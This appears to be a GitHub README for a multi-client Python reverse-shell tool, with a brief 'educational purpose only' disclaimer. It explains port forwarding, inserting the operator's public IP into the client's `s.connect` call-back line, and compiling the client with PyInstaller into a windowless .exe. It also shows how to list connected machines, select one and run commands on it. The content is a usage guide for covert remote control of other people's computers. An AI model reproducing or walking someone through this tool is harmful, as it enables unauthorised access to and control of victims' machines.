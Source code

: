 This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

## Installation 
type in the command line `pip install -r requirements.txt` to install all required modules

## How to use
make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.

## Client
make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
## Conver client.py to .exe
type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
then you can delete the .spec file and the build folder.
the exe will be in "dist" folder.

## Using the tool
start server.py and wait for connection.
to see of all your connections type `snake> list` in the interacive prompt.
to send commands to one of your connections type `select` and the ID number of the connection.
E.X.:
`snake> select 0`
when you are in the reverse shell of one of your connection' you can type `getos` to see what OS is running on your connection machine.
if you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.
if you want to quit from the entire program type `shutdown` in the interactive prompt.
